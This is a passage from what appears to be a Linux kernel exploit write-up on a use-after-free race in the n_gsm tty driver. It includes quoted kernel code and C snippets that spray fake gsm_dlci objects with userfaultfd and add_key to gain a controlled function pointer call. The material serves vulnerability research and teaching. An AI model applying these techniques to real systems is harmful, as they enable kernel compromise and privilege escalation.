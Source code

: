 The first thread then goes ahead and frees dlci[0].

We then spray to fill that slab object and eventually the second thread gets scheduled again,
with a freed dlci object referenced.

The second thread executes [2].

```c
static void gsm_dlci_begin_close(struct gsm_dlci *dlci)
{
        struct gsm_mux *gsm = dlci->gsm;
        if (dlci->state == DLCI_CLOSED || dlci->state == DLCI_CLOSING) [4]
                return;
        dlci->retries = gsm->n2;
        dlci->state = DLCI_CLOSING;
        gsm_command(dlci->gsm, dlci->addr, DISC|PF); [5]
        mod_timer(&dlci->t1, jiffies + gsm->t1 * HZ / 100); [6]
}

static inline void gsm_command(struct gsm_mux *gsm, int addr, int control)
{
        gsm_send(gsm, addr, 1, control); [7]
}

static void gsm_send(struct gsm_mux *gsm, int addr, int cr, int control)
{
...
        gsm->output(gsm, cbuf, len); [8]
...
}
```

If the second thread woke up too early, hopefully [4] won't pass.

Through [7] and [8] we then get a controlled function pointer call.

We also try to avoid a crash at [6] by having the timer function
execute as soon as possible and call a dummy function.

#### Spraying with userfaultfd / add_key

By using userfaultfd we can effectively block copy_from_user operations in the kernel 
indefinitely when copying data over page boundaries.

We use this in conjunction with add_key to spray fake gsm_dlci objects.

```c
buf = mmap(NULL, 4096*2, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
memset(buf, 0x41, 4096);
...
reg.range.start = (unsigned long)buf;
reg.range.len = 4096*2;
...

if(ioctl(ufd_fd, UFFDIO_REGISTER, &reg)) die("UFFDIO_REGISTER"); [1]

syscall(__NR_add_key, "user", "wtf", buf + 4096 - 1023, 1024, -123); [2]

SYSCALL_DEFINE5(add_key, const char __user *, _type,
                const char __user *, _description,
                const void __user *, _payload,
                size_t, plen,
                key_serial_t, ringid)
{
...
	payload = kvmalloc(plen, GFP_KERNEL); [3]
	copy_from_user(payload, _payload, plen); [4]
...
```